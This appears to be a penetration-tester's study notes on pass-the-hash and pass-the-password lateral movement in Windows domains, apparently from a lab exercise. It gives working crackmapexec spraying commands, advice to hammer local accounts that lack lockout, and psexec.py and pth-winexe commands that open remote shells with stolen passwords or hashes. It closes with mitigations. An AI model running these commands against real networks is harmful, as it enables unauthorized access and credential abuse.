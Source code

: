 # Pass the Hash/Password

## What is it?

* using cracked passwords and SAM hashes for lateral movement in the network
* super powerful
* LOOK INTO "OVERPASS THE HASH"

## Crackmapexec Pass the Password

#### Crackmapexec Command

```bash
crackmapexec <protocol: smb is best> <ip/CIDR> -u <user> -d <domain> -p <pass>
```

#### Password Spraying?

* Domain Accounts have a lockout policy, but local accounts do not
* hammer local accounts!

#### Popping a Shell with the Credentials Received

```bash
psexec.py marvel/fcastle:'P@$$w0rd!'@172.16.35.6
```

#### Useful Flags

```bash
--sam # Flag to attempt a SAM dump at success
--shares # Enumerate shares
--help # Read the docs
```

## Crackmapexec Pass the Hash (cannot pass NTLMv2)

```bash
crackmapexec <protcol: smb is best> <ip/CIDR> -u <user> -H <last hash part>
```

#### Popping a Shell with the Credentials Received

```bash
psexec.py “frank castle”:@172.16.35.7 -hashes <LM+NT aka the whole hash>
```

## pth-winexe

```
// sushant747 method 1
pth-winexe -U administrator //192.168.1.101 cmd
// sushant747 method 2
pth-winexe -U admin/hash:has //192.168.0.101 cmd

// new learned method (new for me at least)
pth-winexe -U <username>%<hash...>:<...hash> //10.10.10.10 cmd
```

## Mitigations

#### Limit Account Reuse

* avoid re-using local admin password
* disable Guest and Administrator accounts
* limit who is local administrator (least privilege)

#### Utilize Strong Passwords

* the longer the better (>14 characters)
* avoid using common words
* i like long sentences

#### Privilege Access Management (PAM)

* check out/in sensitive accounts when needed
* automatically rotate passwords on check out and check in
* limits pass attacks on hash/password if strong and constantly rotated
